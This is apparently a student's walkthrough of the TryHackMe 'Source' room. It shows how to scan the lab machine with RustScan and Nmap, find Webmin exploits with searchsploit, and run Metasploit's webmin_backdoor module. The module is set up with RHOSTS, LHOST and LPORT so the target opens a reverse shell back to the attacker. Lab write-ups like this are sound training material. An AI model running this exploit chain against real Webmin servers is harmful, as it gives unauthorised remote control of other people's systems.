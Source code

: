 # ♦ Day 09
</br>
</br>

## ◙ ***TRYHACKME ROOM***
 </br>
 
# ♦ [SOURCE](https://tryhackme.com/r/room/source) : 
   ⇨ Exploit a recent vulnerability and hack Webmin, a web-based system configuration tool. 
   </br>
   </br>
### ◙ Step-By-Step Guide 



### • 1. First we have to connect it to the TRYHACKME platform for that we have to go to the ***Acess*** in profile and then Download the open vpn file in ***.ovpn*** format.


### • 2. Connect to the Vpn using ***sudo openvpn >file that u downloaded<.ovpn***.

### • 3. Open a Different terminal 'Remember not to close the vpn file till the work is done' and scan the Ip that was generated by THM while starting the   machine and try saving the report by using ***RUSTSCAN***. </br>

  #### ***⇨*** { ***NOTE: Rustscan is much more efficient when we have to scan all the port in a fast manner,rustscan is upgraded version of nmap but it dont give all the dtails of open ports so we acn again use nap to scan open ports after we get the open ports from using rustscan*** }. </br>


## ◙ Difference between Nmap and RustScan.


|    Feature    |                    Nmap                   |               RustScan              |
| ------------- | ----------------------------------------- | ----------------------------------- |
|     Speed     | Slower due to comprehensive scanning      | Very fast, designed for quick scans |
|  Flexibility  | Highly flexible with many options         | Less flexible, focuses on speed     |
|  Programming  | Written in C                              | Written in Rust                     |
|     Usage     | Widely used for detailed network analysis | Best for quick port scanning        |
|  Installation | Available on most systems                 | Requires installation of Rust       | </br>



### • 4. Now Download the rustscan from its orignal website that is in github and here is the [LINK](https://github.com/RustScan/RustScan/releases/download/2.2.3/rustscan-2.2.3-x86_64-linux.tar.xz). Then extract and install and u r ready to use it.

### • 5. Now let's set the room ip in ***/etc/hosts*** so we don't have to type ip everytime. 
    sudo nano /etc/hosts

### • 6. Scan for the open ports in the ip by rustscan and save it as rustscan-sv-sc-source.txt
     sudo rustscan -a source.com -- --script vuln -oN rustscan-sv-sc-source.txt

as we can see it dont give us full details On the Open Ports so we will again use Nmap to scan the open ports we got from the rustscan.

### • 7. Now we will use the Nmap to scan all the known open ports.
    sudo nmap -p(port no.) -sV source.com

### • 8. As we obtainesd ports details from the upper scan now we will search for the spoloits feom search ***searchsploits*** Command so we got that its is a webmin fro mm yupper scan so we will do:
    seachsploit webmin


### • 9. And as it contains "Metasploit" as one of the sploits available so we will use ***msfconsole***.
    msfconsole

### • 10. And now we will search for the sploits for webmin in msfconsole.
    search webmin

### • 11. We hav eto select ***exploit/linux/http/webmin_backdoor*** whichever number it is in.

### • 12. Now we gotta see what informations are required to be filed to usee this sploit for tht we wioll use:
    show options 

### • 13. Now fill all the required infos
    set RHOSTS >the ip that was given by the room<

    set LHOST >the ip of ur vpn/tun0<

    set LPORT >the port u wanna use for this operation(tht port should be free/not alredy in use)<
  
  Also set SSL to true and AutoCheck false
  
    set SSL true 

    set AutoCheck false
  
 And BOOOOM! use ***exploit***
     
    exploit
